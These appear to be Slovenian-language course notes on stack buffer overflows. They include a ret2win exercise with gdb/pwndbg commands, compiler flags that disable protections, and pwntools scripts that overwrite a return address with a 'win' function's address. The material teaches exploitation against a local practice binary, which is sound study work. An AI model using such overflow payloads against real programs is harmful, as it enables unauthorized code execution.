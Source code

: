 - če povozimo return address lahko naredimo, da main kliče samega sebe (prejšnja vaja)
- za skoke nazaj rabimo return address in kje se je prejšnji stack začel (to je base pointer)
- za skoke rabimo vedeti return address in base pointer

- ret2win - skočiš na "win" function
- rabimo compilat brez kanarčka: `gcc -fno-stack-protector -z execstack -no-pie -o server server.c`

```
pwndbg main
run // požene program, lahko samo `r`
b main // breakpoint na prvo vrstico main
r
```

- RBP = base pointer
- RSP = stack pointer
- na začetku kažeta na isto zadevo
- RIP = instruction pointer (program counter) - kaže na naslov naslednjega ukaza

```
b* main // se break-a po tem, ko se prvi ukaz zažene, ne pred tem tako kot pri `b`
```

```
ni // next instruction
```

- stack je na dnu pomnilnika, zato je naslov `0x7fffffff...`
- če vpišemo preveč znakov (A):
	- ![200](Images3/Pasted%20image%2020250303134932.png)
	- s tem smo povozili stack, na stacku je shranjeno zaporedje klicov funkcij - ko pridemo do return, bo poskusilo skočiti na `0x4141414141414141` (na naslov na vrhu stacka) (to so v bistvu ASCII 'A')

```
c // continue, da gre naprej do breakpointa, ki ga imamo v main
```

- `x/100gx $rsp` - dobimo memory map
- lahko rabimo alignment na nekaj bytov, zato naš char array ni res 20B, ampak je 32 ali 40 ...; včasih rabimo allignati na 8B, včasih pa na 16B

```python
from pwn import *

# p = process('./main')

p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8

# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)

p.sendline(b"A"*20 + b"B"*8 + b"C"*8)

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- ![500](Images3/Pasted%20image%2020250303143510.png)

- da ugotovimo, kje v pomnilniku je `win` funkcija, moramo pogledati disassembly:
	- `disass main`
	- `disass win`

`0x0000000000401156`
`b"\x00\x00\x00\x00\x00\x40\x11\x56"`
- rabimo v bistvu ravno okoli obrniti, ker rabimo big endian (vodila na procesorju so tako postavljena na RAM, da se ravno zarotira)
- `b"\x56\x11\x40\x00\x00\x00\x00\x00"`

- pwntools funkcija `p64` - `p64(0x401156)`

```
from pwn import *

# p = process('./main')
p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8
# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)
p.sendline(b"A"*32 + b"B"*8 + p64(0x401156))

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- po koncu main, bo skočilo v `win` funkcijo in izpisalo "You win"
- ret2libc - vemo, kje je puts in kje ima libc `system` - lahko skočimo na `system`